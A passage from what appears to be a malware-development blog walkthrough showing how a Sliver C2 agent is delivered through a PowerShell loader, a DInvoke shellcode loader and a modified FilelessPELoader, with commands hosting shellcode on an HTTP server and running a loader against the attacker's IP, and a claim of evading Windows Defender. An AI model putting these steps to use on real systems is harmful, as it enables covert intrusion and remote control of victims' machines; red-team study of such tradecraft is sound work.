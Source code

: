 This script is a PowerShell loader that is hosted on our server, intented to be downloaded and executed once an attacker gains code execution. The script will load the stager into memory via reflection and performs the `DownloadAndExecute` operation that downloads our Sliver agent from our payload server and executes it.

## Sliver in Action
Moving to our attack machine, we run our Python HTTP server where our shellcode is located.

```console
$ cd /tmp && python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

### DInvoke Execution
Now with everything set lets try to get a beacon from our victim machine (`172.16.0.5`). We will first make use of our **DInvoke Loader**.

![Sliver DInvoke Loader](/assets/images/maldev/sliver-execution.png)

After executing our custom shellcode loader, we can see it has grabbed our beacon file from our Python server (`rev.bin`), loaded the shellcode in memory and connected to our server without alerting Windows Defender. You see that I get a couple of beacon connections, because I ran the executable a couple of times. 

### FilelessPELoader Execution
Now we can also try running our modified **FilelessPELoader** executable.

!!!info Note
Don't forget to specify the IP and PORT as well as the encrypted payload and key files as arguments.
!!!

```console
$ python3 aes.py beacon.exe
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

PS C:\> .\FilelessPELoader.exe 192.168.129.40 8080 cipher.bin key.bin
```
